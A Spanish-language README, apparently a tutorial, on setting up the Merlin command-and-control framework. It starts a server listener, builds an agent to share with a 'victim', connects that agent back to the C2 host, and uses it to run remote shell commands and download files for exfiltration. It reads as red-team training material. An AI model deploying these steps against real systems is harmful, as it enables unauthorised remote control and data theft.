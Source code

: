 # Instalación de C2 - Merlin

![N|Solid](https://merlin-c2.readthedocs.io/en/latest/_images/merlin-horizontal.png)


Merlin es una herramienta de Comando y Control (C2) creada en Go, soporta los protocolos de comunicación HTTP/1.1,HTTP/2 y HTTP/3, y permite crear agentes para Windows, Linux y MacOS.

![image](https://user-images.githubusercontent.com/50930193/179371066-f55ef72e-e31c-43b1-ba7a-e12078d5101b.png)

Los siguientes comandos han sido validados en Ubuntu; de utilizarse alguna otra distribución, se deberán buscar los comandos equivalentes.

## Instalación de prerequisitos 
<br/>

Tener instalado en nube un server en Ubuntu, para este ejercicio voy a crear un servidor en Digital Ocean

![image](https://user-images.githubusercontent.com/50930193/179369081-0984e9c6-ecf0-4ae6-8747-31d166a5fba6.png)

```
apt install p7zip-full
apt install git
apt install make
```
<br/><br/>

## Descarga del servidor C2
<br/>

```
cd /opt #Ir a la ruta /opt
```
```
wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z #Descargar última versión disponible del servidor para sistemas Linux
```
![image](https://user-images.githubusercontent.com/50930193/179369119-54853407-f160-4f60-b5e7-744460968622.png)

```
7z x -pmerlin -omerlin merlinServer-Linux-x64.7z #Descomprimir el archivo descargado
```
![image](https://user-images.githubusercontent.com/50930193/179369130-8ec67795-9fd5-40c4-a999-cb5e0409e80d.png)

<br/><br/>

## Configuración e inicio del servidor
<br/>

```
cd /opt/merlin #Acceder a la ruta donde se descargó el servidor C2
```
```
./merlinServer-Linux-x64 #Iniciar el servidor
```
![image](https://user-images.githubusercontent.com/50930193/179369733-5a5b2553-c687-406a-8d16-c7478bac4b9b.png)

```
listeners #Acceder al menú de listeners
```
```
use http2 #Indicar al servidor que se desea utilizar HTTP/2 para comunicarse con el agente; de utilizarse otro protocolo, se deberá especificar al momento de crear el agente
```
```
set Interface 0.0.0.0 #Indicar al servidor que se esperan conexiones desde cualquiera de sus interfaces de red
```
```
set PSK CLAVESECRETA #Indicar al servidor que se deberá utilizar la clave CLAVESECRETA para la comunicación con el agente; esta clave deberá ser la misma que se use al momento de emplear el agente
```
```
start #Inicia el servicio y espera conexiones
```
![image](https://user-images.githubusercontent.com/50930193/179369811-70b549a6-d97a-43d2-b20f-b559ddaf6099.png)

<br/><br/>

## Creación de agente
<br/>
<br/><br/>
**Se deberá compartir el binario (agente) a la víctima** La manera mas sencilla de disponer del agente es emplear los archivos binarios precompilados del Agente Merlin los cuales se distribuyen con la descarga del servidor en el directorio **data/bin/** de Merlin

La otra opción es en el agente descargar  e instalar el agente empleando estos pasos:

```
cd /opt #Ir a la ruta /opt
```
```
git clone https://github.com/Ne0nd0g/merlin-agent.git #Descargar el código necesario para crear agentes
```
![image](https://user-images.githubusercontent.com/50930193/179369460-ba258a57-b8bf-43d9-b487-7f13142e444b.png)

```
cd merlin-agent #Acceder al directorio descargado
```
```
make linux #Crear el binario para Linux, de estar creando el agente para otro sistema operativo, reemplazar "linux" por "darwin" (MacOS) o "Windows". El binario se creará en la carpeta bin
```

![image](https://user-images.githubusercontent.com/50930193/179369181-c7583bfe-dd74-4fa3-8b9f-1575033ae408.png)

![image](https://user-images.githubusercontent.com/50930193/179369193-42cc3870-30de-4622-bed8-c9d944f3188d.png)

Ahora se deberá usar el agente para establecer un canal de comunicación con el servidor

```
./merlinAgent-Linux-x64 -url https://DIRECCION_IP:443 -psk CLAVESECRETA #se deberá cambiar la dirección IP del servidor de C2 e introducir una clave secreta para la comunicación entre el agente y el servidor C2
```
El resultado da cuenta de un nuevo de la creación de un GUID (Identificador del agente)

![image](https://user-images.githubusercontent.com/50930193/179370142-ffa81873-12b7-45ed-949b-0dac0d81fd59.png)



## Interacción con los agentes
<br/>

```
sessions #Lista las conexiones activas, anotar el identificador del agente (víctima) con el que se desea interactuar
``` 
```
interact AGENTE #Inicia interacción con el agente
```
```
info #Muestra información sobre el sistema operativo sobre el que se está ejecutando el agente (víctima)
```
![image](https://user-images.githubusercontent.com/50930193/179370248-ad9195be-5c69-48ea-aa6c-c52170b6ae68.png)
```
help #Lista las opciones disponibles
```
![image](https://user-images.githubusercontent.com/50930193/179370294-09ce4e0e-c81a-4105-8066-a7b0ef5f2c9f.png)

```
shell COMANDO #Ejecuta un comando en la víctima
```
![image](https://user-images.githubusercontent.com/50930193/179370369-1107d168-c749-4783-ac2f-e095d8bec078.png)

Ahora supongamos que queremos ubicar información a exfiltrar puede usar los comando siguientes
```
cd CARPETA
shell ls
download FILE
```
![image](https://user-images.githubusercontent.com/50930193/179370624-b5379c7b-f553-40aa-a1c5-42bdebec1e79.png)
